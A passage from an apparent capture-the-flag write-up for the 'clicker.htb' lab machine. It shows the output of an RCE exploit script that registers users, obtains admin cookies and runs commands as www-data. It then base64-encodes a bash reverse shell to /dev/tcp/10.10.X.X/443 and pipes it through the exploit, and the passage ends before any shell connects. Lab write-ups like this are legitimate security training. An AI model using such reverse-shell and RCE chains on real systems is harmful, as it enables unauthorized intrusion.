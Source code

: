 ```python
        print("\n" + result.get_text().replace(placeholder, ""))
```

```shell
┌──(kali㉿kali)-[~/clicker.htb]
└─$ python3 rce_exploit.py clicker.htb 'id'
Generated username: tgxvyjep
Generated password: ateymvih
Successfully registered user.
Cookie: PHPSESSID=k90n49ra5nje3rutnlo2m1bksn
User logged in.
Authenticated cookie: PHPSESSID=8v8tcr3ft863fn7labbpndfusv
Admin logged in.
Admin cookie: PHPSESSID=sqn7btg1018pnmhdlcel04a7nh
Generated username: qpbmwdox
Generated password: brlnugwu
Successfully registered normal user.
Cookie: PHPSESSID=k90n49ra5nje3rutnlo2m1bksn
Normal user logged in.
Normal authenticated cookie: PHPSESSID=uqaja4n91ddq6gpqt09f6fceht
Export url: http://clicker.htb/exports/top_players_0vd7fv4y.php

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

In the example shown, the script successfully exploited the `RCE` vulnerability, executed the `id` command, and displayed the output, indicating that it was able to run arbitrary commands on the server. This automation simplifies the process of exploiting the RCE and is a powerful tool for penetration testers and security researchers.

# SHELL AS WWW-DATA

Here's what we did to gain a shell as the `www-data` user:

- We started by encoding a reverse shell command into `base64`.

```shell
┌──(kali㉿kali)-[~]
└─$ echo 'bash -c "bash -i >& /dev/tcp/10.10.X.X/443 0>&1"' | base64
YmFzaCAtYyA..................S80NDMgMD4mMSIK
```

- Next, we used our automation script to exploit the **Remote Code Execution** (`RCE`) vulnerability on the target server.

```shell
┌──(kali㉿kali)-[~/clicker.htb]
└─$ python3 rce_exploit.py clicker.htb 'echo%20YmFzaCAtYyA............................D4mMSIK%20%7C%20base64%20-d%7Cbash'
Generated username: fgldenbc
Generated password: vivudhiy
Successfully registered user.
Cookie: PHPSESSID=60qar5ta42jn0nj0mi47guouo3
User logged in.
Authenticated cookie: PHPSESSID=k1ap4c0drc272c87eikahaab8h
Admin logged in.
Admin cookie: PHPSESSID=6m43rmqe9ee5a86e80k6mvapes
Generated username: dcpixvor
Generated password: wykvpcmi
Successfully registered normal user.
Cookie: PHPSESSID=60qar5ta42jn0nj0mi47guouo3
Normal user logged in.
Normal authenticated cookie: PHPSESSID=kq3ctpru5h7r2u7ri7krq68jn9


```

